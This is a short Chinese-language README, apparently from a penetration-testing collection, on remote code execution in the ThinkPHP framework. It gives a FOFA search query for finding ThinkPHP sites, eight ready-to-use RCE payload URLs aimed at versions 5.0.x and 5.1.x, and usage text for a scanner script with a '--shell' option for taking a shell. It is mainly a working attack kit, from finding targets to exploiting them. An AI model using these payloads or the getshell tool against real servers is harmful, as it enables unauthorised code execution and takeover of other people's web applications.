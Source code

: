 # FOFA

```
app="ThinkPHP"
```



# ThinkPHP RCE 漏洞

## 说明

ThinkPHP中RCE漏洞涉及的版本较多，V2以及V5中都存在该漏洞

tp框架系列中，5.0.x 跟 5.1.x 中，各个系列里的poc是几乎为通用的

比如 5.0.1中某个poc在5.0.3中也是可以用的，也就是说当我们碰到5.0.8的时候，可以尝试用5.0.1 或 5.0.5等 5.0.x 系列的poc去尝试使用，

5.1.x 系列同理

所以，一条payload可以通用多个版本的ThinkPHP，但不完全保证，可以多尝试尝试。

## poc

可用下面的poc来验证是否为RCE

```
/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1"

/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()"

/?s=index/think\request/input?data[]=phpinfo()&filter=assert",

/?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>",

/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()",

/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1"

/?s=index/\think\Request/input&filter[]=phpinfo&data=-1",

/?s=index/\think\module/action/param1/${@phpinfo()}"]
```

综合检验+getshell工具见**thinkphpRCE.py**

```
usage: thinkphp_rce.py [-h] [-u URL] [-f FILE] [-p PROXY] [--shell]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url -u xxx.com
  -f FILE, --file FILE  read the url from the file
  -p PROXY, --proxy PROXY
                        use HTTP/HTTPS proxy
  --shell               try to get shell

python thinkphpRCE.py -u http:/xx.xx/ --shell //检测和getshell
```

